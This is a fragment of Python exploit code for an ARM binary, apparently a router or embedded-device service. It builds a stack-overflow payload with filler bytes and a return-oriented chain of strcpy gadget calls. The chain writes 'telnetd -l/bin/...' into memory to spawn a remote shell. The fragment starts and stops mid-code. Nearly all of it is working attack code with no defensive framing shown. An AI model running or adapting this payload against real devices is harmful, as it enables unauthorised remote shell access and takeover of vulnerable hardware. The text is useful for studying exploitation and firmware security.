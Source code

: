 ```
        .text:000230F4                 ADD             SP, SP, #0x1000
        .text:000230F8                 LDMFD           SP!, {R4-R11,PC}
        """
    )
    print(len(payload))
    return payload

def makpayload1():
    expayload = ''
    """
    .text:00013644                 MOV             R0, R10 ; dest
    .text:00013648                 MOV             R1, R5  ; src
    .text:0001364C                 BL              strcpy
    .text:00013650                 MOV             R0, R4
    .text:00013654                 ADD             SP, SP, #0x5C ; '\'
    .text:00013658                 LDMFD           SP!, {R4-R8,R10,PC}
    """
    expayload += 'a' * 4550
    expayload += p32(bssBase+3) # R4 Register
    expayload += p32(0x3F340) # R5 Register //tel
    expayload += 'IIII' # R6 Register
    expayload += 'HHHH' # R7 Register
    expayload += 'GGGG' # R8 Register
    expayload += 'FFFF' # R9 Register
    expayload += p32(bssBase) # R10 Register
    expayload += 'BBBB' # R11 Register
    expayload += p32(0x13644) # strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+6) #R4
    expayload += p32(0x423D7) #R5  //telnet
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy


    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+8) #R4
    expayload += p32(0x40CA4 ) #R5  //telnetd\x20
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+10) #R4
    expayload += p32(0x4704A) #R5  //telnetd\x20-l
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
    expayload += p32(0x13648) #strcpy

    expayload += 'd'*0x5c#dummy
    expayload += p32(bssBase+11) #R4
    expayload += p32(0x04C281) #R5  //telnetd\x20-l/bin/\x20
    expayload += 'c'*4 #R6
    expayload += 'c'*4 #R7
    expayload += 'c'*4 #R8
    expayload += 'd'*4 #R10
```